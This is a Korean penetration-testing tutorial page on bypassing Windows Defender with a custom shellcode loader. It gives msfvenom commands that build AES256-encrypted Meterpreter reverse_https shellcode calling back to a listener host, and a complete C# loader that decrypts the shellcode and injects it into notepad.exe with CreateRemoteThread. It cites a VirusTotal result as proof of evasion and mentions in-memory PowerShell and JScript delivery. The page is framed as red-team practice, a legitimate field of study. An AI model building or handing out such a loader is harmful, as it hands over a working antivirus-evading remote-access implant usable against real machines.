 # 간단 디펜더 우회 - 쉘코드

윈도우 10과 윈도우 11의 워크스테이션용 디펜더는 날이 갈수록 그 성능이 좋아지고 있다. EDR 솔루션들 만큼은 아니지만, 시중에 나와있는 평범한 AV 솔루션들보다 그 성능이 더 좋아보일 정도다. 모의해킹을 진행하다보면 시간이 적어 빨리 빨리 일을 진행해야하기 때문에 매번 페이로드를 새롭게 생성할 시간적 여유가 없다. 이 페이지에서는 간단하게 워크스테이션용 디펜더 (ATP는 아니다)를 커스텀 로더 (Custom Loader)를 이용해 우외하는 방법에 대해서 알아본다.

실습에서 만들 커스텀 로더는 AES256으로 암호화된 쉘코드를 런타임 중 복호화하고, 그 뒤 전통적인 `CreateRemoteThread` 프로세스 인젝션으로 미터프리터 (Meterpreter) 쉘코드를 실행할 것이다.

### 쉘코드

쉘코드는 미터프리터로, msfvenom을 이용해 만든다. 일반적인 쉘코드와는 다르게 암호화 플래그를 사용한다. AES256-CBC 암호화에는 32바이트 (256비트) 암호화 키와 16바이트 (128비트) IV를 사용하기 때문에, 이를 bash를 이용해 먼저 구한 뒤 쉘코드를 생성한다.

```
# 키 생성 
bash -c 'echo $RANDOM | md5sum | head -c 32; echo;'

# IV 생성 
bash -c 'echo $RANDOM | md5sum | head -c 16; echo;'

# 키와 IV를 바탕으로 예제 쉘코드 생성
msfvenom -p windows/x64/meterpreter/reverse_https --encrypt aes256 --encrypt-key 9db7ad8ace353ab54a812373d7c0a01f --encrypt-iv 3a9d7c0cf4ac0431 lhost=192.168.40.182 lport=443 exitfunc=thread -f csharp -v bufEncrypted
```

이제 이 쉘코드를 커스텀 로더에 집어넣은 뒤, 프로세스 인젝션을 통해 실행시켜보자.

### 커스텀 로더 (Loader)

기본적으로 msfvenom으로 만드는 미터프리터 (Meterpreter)의 경우에는 `.exe` 나 `.ps1` 등의 페이로드가 이미 디펜더에 시그니쳐 되어있다. 때문에 msfvenom 이 만들어주는 페이로드를 사용하지 않고, 간단하게 커스텀 로더를 만든다.

이 실습에서는 가장 간단하게 아무런 난독화를 거치지 않고, 공개된지 매우 오래된 CreateRemoteThread 기법을 사용한 커스텀 로더를 제작한다.

<details>

<summary>EncryptedCreateRemoteThread.cs</summary>

```
using System;
using System.Diagnostics;
using System.IO;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;
using System.Threading;

namespace EncryptCreateRemoteThread
{
    class Program
    {
        public static byte[] Aes256Decrypt(byte[] data, byte[] key, byte[] iv)
        {
            using (var aes = Aes.Create())
            {
                aes.KeySize = 128;
                aes.BlockSize = 128;
                aes.Padding = PaddingMode.Zeros;

                aes.Key = key;
                aes.IV = iv;

                using (var decryptor = aes.CreateDecryptor(aes.Key, aes.IV))
                {
                    return PerformCryptography(data, decryptor);
                }
            }
        }

        private static byte[] PerformCryptography(byte[] data, ICryptoTransform cryptoTransform)
        {
            using (var ms = new MemoryStream())
            using (var cryptoStream = new CryptoStream(ms, cryptoTransform, CryptoStreamMode.Write))
            {
                cryptoStream.Write(data, 0, data.Length);
                cryptoStream.FlushFinalBlock();

                return ms.ToArray();
            }
        }

        static void Main(string[] args)
        {
            // msfvenom -p windows/x64/meterpreter/reverse_https --encrypt aes256 --encrypt-key 9db7ad8ace353ab54a812373d7c0a01f --encrypt-iv 3a9d7c0cf4ac0431 lhost=192.168.40.182 lport=443 exitfunc=thread -f csharp -v bufEncrypted
            byte[] bufEncrypted = new byte[624] { <shellcode...> };

            string key = "9db7ad8ace353ab54a812373d7c0a01f";
            string iv = "3a9d7c0cf4ac0431";
            byte[] buf = Aes256Decrypt(bufEncrypted, Encoding.ASCII.GetBytes(key), Encoding.ASCII.GetBytes(iv));

            var process = Process.Start(@"C:\windows\system32\notepad.exe");
            var pid = process.Id;

            IntPtr hProc = OpenProcess(ProcessAccessFlags.All, false, pid);
            IntPtr pAlloc = VirtualAllocEx(hProc, IntPtr.Zero, (uint)buf.Length, (uint)(AllocationType.Commit | AllocationType.Reserve), (uint)MemoryProtection.ReadWrite);
            bool rWPM = WriteProcessMemory(hProc, pAlloc, buf, (uint)buf.Length, out IntPtr byteWritten);
            bool rVPE = VirtualProtectEx(hProc, pAlloc, (uint)buf.Length, (uint)MemoryProtection.ExecuteRead, out uint lpflOldProtect);
            IntPtr hThread = CreateRemoteThread(hProc, IntPtr.Zero, (uint)0, pAlloc, IntPtr.Zero, (uint)0, out IntPtr lpThreadId);


            /*Console.WriteLine("[+] Process handle = {0}", hProc.ToInt64().ToString("x2"));
            Console.WriteLine("[+] Allocated memory address = 0x{0}", pAlloc.ToInt64().ToString("x2"));
            Console.WriteLine("[+] WriteProcessMemory result = {0}", rWPM.ToString());
            Console.WriteLine("[+] VirtualProtectExe result = {0}", rVPE.ToString());
            Console.WriteLine("[+] Thread handle = {0}", hThread.ToInt64().ToString("x2"));*/
        }

        //  ============================ PInvoke - Ignore me ============================

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern IntPtr OpenProcess(ProcessAccessFlags processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern bool VirtualProtectEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out IntPtr lpThreadId);

        [Flags]
        public enum ProcessAccessFlags : uint
        {
            All = 0x001F0FFF,
            Terminate = 0x00000001,
            CreateThread = 0x00000002,
            VirtualMemoryOperation = 0x00000008,
            VirtualMemoryRead = 0x00000010,
            VirtualMemoryWrite = 0x00000020,
            DuplicateHandle = 0x00000040,
            CreateProcess = 0x000000080,
            SetQuota = 0x00000100,
            SetInformation = 0x00000200,
            QueryInformation = 0x00000400,
            QueryLimitedInformation = 0x00001000,
            Synchronize = 0x00100000
        }

        [Flags]
        public enum AllocationType
        {
            Commit = 0x1000,
            Reserve = 0x2000,
            Decommit = 0x4000,
            Release = 0x8000,
            Reset = 0x80000,
            Physical = 0x400000,
            TopDown = 0x100000,
            WriteWatch = 0x200000,
            LargePages = 0x20000000
        }

        [Flags]
        public enum MemoryProtection
        {
            Execute = 0x10,
            ExecuteRead = 0x20,
            ExecuteReadWrite = 0x40,
            ExecuteWriteCopy = 0x80,
            NoAccess = 0x01,
            ReadOnly = 0x02,
            ReadWrite = 0x04,
            WriteCopy = 0x08,
            GuardModifierflag = 0x100,
            NoCacheModifierflag = 0x200,
            WriteCombineModifierflag = 0x400
        }
    }
}
```

</details>

PInvoke를 제외한다면 `OpenProcess -> VirtualAllocEx -> WriteProcessMemory -> VirtualProtectEx -> CreateRemoteThread` 를 사용하는 전통적인 프로세스 인젝션 로더다. 이와 관련된 기법은 이 [CreateRemoteThread 페이지](process-injection/createremotethread.md)에서 서술했다.

`Main()` 함수를 보다보면 안에 `bufEncrypted` 변수가 있다. 여기에는 위에서 만든 쉘코드를 집어넣어주면 된다.

PDB를 제거한 뒤, x64로 컴파일한다. 20년이 넘은 `CreateRemoteThread` 기법에 아무런 난독화를 거치지 않아도 정적분석은 나름 괜찮게 우회하는 편이다. 물론 왠만한 EDR 솔루션들은 위 페이로드를 실행하는 순간 바로 잡아낼 것이다. (디펜더 우회가 아니라 EDR 솔루션 우회는 direct syscall 과 Call Stack Spoofing 등의 기법을 이용하는데, 이에 대해서는 다른 페이지에서 서술한다.)

![https://www.virustotal.com/gui/file/2c23e1512d8e928202237d86f98145f30d544e78f1ed756a497d3482a4ffa262/detection](<../.gitbook/assets/image (69).png>)

최신 EDR 솔루션들을 우회하기는 어렵겠지만, 가장 최신 버전의 디펜더는 우회하는 모습을 볼 수 있다.

![](../.gitbook/assets/custom-loader.gif)

C# 으로 만든 페이로드기 때문에 [파워쉘-C# 페이지](../execution/powershell/csharp-execution.md)에서 서술했던 대로 메모리상에서 파워쉘을 통해 실행시킬 수도 있다. 혹은 [DotNettoJS 페이지](../initial-access/phish-attachments/dotnettojs.md)에서 서술했던 대로 JScript나 VBScript 등으로 변환할 수도 있다.
